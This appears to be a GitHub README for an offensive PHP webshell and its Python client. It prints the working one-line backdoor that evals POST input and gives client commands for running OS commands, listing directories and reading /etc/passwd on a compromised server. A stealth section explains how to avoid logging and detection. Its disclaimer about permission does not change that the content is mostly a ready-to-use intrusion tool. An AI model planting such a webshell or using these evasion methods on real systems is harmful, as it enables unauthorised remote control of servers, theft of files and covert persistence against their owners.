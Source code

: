 # PHP Webshell
#### Disclaimers (before we begin)
1. I am not responsible for anything you do with this. Please only use this if you were granted permission by your targets owner!
2. The webshell.php might not work great on windows machines, simply because I haven't tested it. Once I do I will update the code :)

## Let's Begin!
So as you see there are 2 parts to this webshell:
1. webshell.php - The webshell that you upload
2. client.py - The python3 utility you use to interact with webshell.php after it's been uploaded

If you look at `webshell.php` you'll notice it's very simple:
```php
<?php
	if(isset($_POST['payload']))
	{
		eval($_POST['payload']);
	}
?>
```
All it does is eval the php code given to it via a POST request.  
Using this kind of shell is a bit annoying, which is why the `client.py` was created.  
The client side takes care of converting your commands to php code and passing them to the webshell.  
It also has other functions that allow you to interact with the target via the webshell that don't require executing commands on the system  
(opening new processes and executing commands via a webshell isn't very stealthy).  
## Usage
```
python3 client.py --help
```
##### Let's go through some examples  
Executing commands on the remote os:
```sh
# execute an os command via the "system()" php function
python3 client.py -u http://example.com/webshell.php -t exec -p "ls"

# specify php function to use when executing a command
# supported php functions are: system (default), passthru, shell_exec, exec, backticks
python3 client.py -u http://example.com/webshell.php -t exec -p "ls" -e passthru
```
Passing your own php code to be executed:
```sh
# adding the -v (--verify) flag, will show you details of the request that you are about to send to the webshell.
# if you are passing a complex php code, it might be worth validating it before sending
# (-v is available with all types, not only 'eval')
python3 client.py -u http://example.com/webshell.php -t eval -p 'echo("test")' -v
```
Get current working directory:
```sh
python3 client.py -u http://example.com/webshell.php -t pwd
```
List files in a given path (like ls):
```sh
# if the given path is not a directory on the target machine, the webshell will tell you.
# this function also lists hidden files and directories
python3 client.py -u http://example.com/webshell.php -t dir -p "/home/user/"
```
Read file contents:
```sh
# you can change the name of the parameter that the webshell uses ("payload") before uploading it,
# to whatever you want ("cmd" for example), and then use --post-param to specify the parameter.
# you can also change the `DEFAULT_POST_PARAM` parameter in `client.py` if you don't want to pass it as an argument everytime
python3 client.py -u http://example.com/webshell.php -t cat -p "/etc/passwd" --post-param "cmd"
```
## Stealth
- The webshell only uses POST requests, as GET requests are often better logged.  
- When executing commands we do it like this `bash -c 'exec 2>&1 COMMAND'`, to make sure errors get piped back to us. This is meant to allow us to see errors that might occur, and also makes sure that errors that occur are not shown in log files.
- The entire webshell (aside from the 'exec' type) uses eval(). This means we are not opening new processes on the target, therefore arrousing less suspicion.
- The client side uses a random user agent for each request.
- Stuff relating to obfuscation, size and last edited time of the uploaded webshell, I leave for you to do alone and research online :) 
## Future Plans
I want to add an upload/download file feature, might get to that later  
Enjoy!
